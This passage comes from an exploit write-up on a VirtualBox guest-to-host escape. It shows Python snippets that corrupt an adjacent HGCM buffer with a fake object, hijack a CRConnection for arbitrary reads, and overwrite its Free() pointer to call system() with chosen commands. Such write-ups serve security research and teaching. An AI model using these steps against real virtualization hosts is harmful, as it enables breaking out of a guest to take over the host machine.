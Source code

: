 Now we have everything we need to make a second overflow, whose content we can finally control. Our ultimate goal is to overwrite the `pData` field and make it point to the `CRConnection` object that we have previously leaked.

#### The Second Overflow

Using `new_id` and size 0x0a0a0a30, we will now corrupt a second `CRVBOXSVCBUFFER_t`. Similar to the previous overflow, this works because these buffers are adjacent to each other. However, this time we overwrite it with our fake object that has ID 0x13371337, size 0x290 and a pointer to `self.pConn`.

```python
try:
    fake = pack("<IIQQQ", 0x13371337, 0x290, self.pConn, 0, 0)
    hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [new_id, 0x0a0a0a30, spray_len + 0x10, fake])
    print("[+] Exploit successful.")
except IOError:
    exit("[-] Exploit failed.")
```

Note that `spray_len + 0x10` represents the offset (again we skip 0x10 bytes of the chunk header). After doing this, we can arbitrarily modify the content of the `CRConnection` object. As explained before, this ultimately enables us an arbitrary read primitive and allows us to call anything we want by replacing the `Free()` function pointer.

#### Arbitrary Read Primitive

When issuing a `SHCRGL_GUEST_FN_READ` command, the data from `pHostBuffer` will be sent back to guest. Using our custom 0x13371337 ID, we can overwrite this pointer and its corresponding size with custom ones. Then, we send the `SHCRGL_GUEST_FN_READ` message using the `self.client2` client to trigger our arbitrary read (this is the client ID of the leaked `CRConnection`):

```python
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, OFFSET_CONN_HOSTBUF,   pack("<Q", where)])
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, OFFSET_CONN_HOSTBUFSZ, pack("<I", n)])
res, sz = hgcm_call(self.client2, SHCRGL_GUEST_FN_READ, ["A"*0x1000, 0x1000])
```

#### Arbitrary Code Execution

Every `CRConnection` object has got function pointers `Alloc()`, `Free()`, etc. to store message buffers of the guest. Furthermore, they take their `CRConnection` object itself as the first argument. This is perfect as it can be be used to kick off a ROP chain for example, or simply call `system()` with arbitrary commands.

To do this, we overwrite the pointer at offset `OFFSET_CONN_FREE` and the content of our desired argument at offset 0 as follows:

```python
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, OFFSET_CONN_FREE, pack("<Q", at)])
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0x13371337, 0x290, 0, cmd])
```
